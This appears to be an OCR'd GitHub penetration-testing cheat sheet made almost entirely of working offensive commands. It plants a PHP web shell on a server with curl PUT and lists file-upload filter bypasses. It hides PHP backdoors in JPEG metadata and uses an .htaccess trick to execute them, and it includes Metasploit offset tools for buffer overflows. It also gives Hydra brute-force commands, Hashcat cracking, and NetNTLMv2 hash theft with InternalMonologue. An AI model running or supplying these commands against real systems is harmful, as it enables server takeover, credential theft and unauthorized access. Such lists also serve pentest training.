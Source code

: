 ### PUTing File on the Webhost via PUT verb
```bash
curl -X PUT -d '<?php system($_GET["c"]);?>' http://192.168.2.99/shell.php
```

### Generating Payload Pattern & Calculating Offset
```bash
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 2000
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q $EIP_VALUE
```

### Bypassing File Upload Restrictions
- file.php -> file.jpg
- file.php -> file.php.jpg
- file.asp -> file.asp;.jpg
- file.gif (contains php code, but starts with string GIF/GIF98)
- 00%
- file.jpg with php backdoor in exif (see below)
- .jpg -> proxy intercept -> rename to .php

### Injecting PHP into JPEG
```bash
exiv2 -c'A "<?php system($_REQUEST['cmd']);?>"!' backdoor.jpeg
exiftool “-comment<=back.php” back.png
```

### Uploading .htaccess to interpret .blah as .php
```bash
AddType application/x-httpd-php .blah
```

### Cracking Passwords
Cracking Web Forms with Hydra

```bash
hydra 10.10.10.52 http-post-form -L /usr/share/wordlists/list "/endpoint/login:usernameField=^USER^&passwordField=^PASS^:unsuccessfulMessage" -s PORT -P /usr/share/wordlists/list
```

Cracking Common Protocols with Hydra
```bash
hydra 10.10.10.52 -l username -P /usr/share/wordlists/list ftp|ssh|smb://10.0.0.1
```

Hashcat Cracking
```bash
# Bruteforce based on the pattern;
hashcat -a3 -m0 mantas?d?d?d?u?u?u --force --potfile-disable --stdout  

# Generate password candidates: wordlist + pattern;
hashcat -a6 -m0 "e99a18c428cb38d5f260853678922e03" yourPassword|/usr/share/wordlists/rockyou.txt ?d?d?d?u?u?u --force --potfile-disable --stdout

# Generate NetNLTMv2 with internalMonologue and crack with hashcat
InternalMonologue.exe -Downgrade False -Restore False -Impersonate True -Verbose False -challange 002233445566778888800
# resulting hash
spotless::WS01:1122334455667788:26872b3197acf1da493228ac1a54c67c:010100000000000078b063fbcce8d4012c90747792a3cbca0000000008003000300000000000000001000000002000006402330e5e71fb781eef13937448bf8b0d8bc9e2e6a1e1122fd9d690fa9178c50a0010000000000000000000000000000000000009001a0057005300300031005c00730070006f0074006c006500730073000000000000000000

# crack with hashcat
```